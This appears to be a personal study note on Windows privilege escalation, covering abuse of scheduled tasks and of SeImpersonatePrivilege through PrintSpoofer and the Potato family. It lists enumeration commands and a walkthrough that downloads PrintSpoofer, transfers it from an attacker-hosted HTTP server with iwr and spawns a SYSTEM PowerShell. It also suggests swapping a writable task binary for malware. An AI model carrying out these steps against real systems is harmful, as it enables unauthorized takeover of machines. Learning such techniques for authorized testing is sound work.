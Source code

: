 # Abusing Other Windows Components

### Scheduled Tasks

- Vital info about tasks
	-  As which user account (principal) does this task get executed?
		- If runs as NT AUTHOIRTY/SYSTEM or admin user -> can lead to Privesc
	- What triggers are specified for the task?
		- if already triggered / if trigger happens too late / is this task viable?
	- What actions are executed when one or more of these triggers are met?
		- how to perform Privesc
- Get-ScheduledTask
	- Cmdlet to view scheduled tasks
- schtasks /query
	- view scheduled tasks
	- ```schtasks /query /fo LIST /v```
	- or ```schtasks /query /fo LIST /v | findstr "  "```
		- /fo = output format
		- /v = display all properties (verbose)
- replace .exe we have permission on with malfware
	- (i.e) transfer over adduser.exe

### Using Exploits

- *application-based* vulnerabilites
- *Windows Kernel*
- Windows privileges
		-  SeBackupPrivilege
		- SeAssignPrimaryToken
		- SeLoadDriver
		- SeDebug
	- *SeImpersonatePrivilege*
		- Non-priv users with assigned privs
			- Enabled by default on:
				- Administrators group
				- LOCAL SERVICE account
				- NETWORK SERVICE account
				- SERVICE  account
		- Can be found in exploiting an IIS (Internet Information Service) web server
			- IIS runs as _LocalService_, _LocalSystem_, _NetworkService_, or cApplicationPoolIdentity
		- RPC or *named pipes*
			- Once a client connects to a named pipe, the server can leverage _SeImpersonatePrivilege_ to impersonate this client after capturing the authentication from the connection process.
- *PrintSpoofer*
	- coerce ```NT AUTHORITY\SYSTEM``` into connecting to a controlled named pipe.
	- variation of the *printer bug
	- Example:
		- check privs
			- ```whoami /priv```
		- Download PrintSpoofer
			- ```wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe```
		- Transfer to tgt 
			- ```python3 -m http.server 80```
			- ```iwr -uri http://192.168.45.230/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe```
		- Start PowerShell session in context of ```NT AUTHORITY\SYSTEM``` with PrintSpoofer
			- ```.\PrintSpoofer64.exe -i -c powershell.exe```
				- -c = command
				- -i = interact in current cmd prompt
		- verify
			- ```whoami```
- *Potato* family
		- effective alternative to PrintSpoofer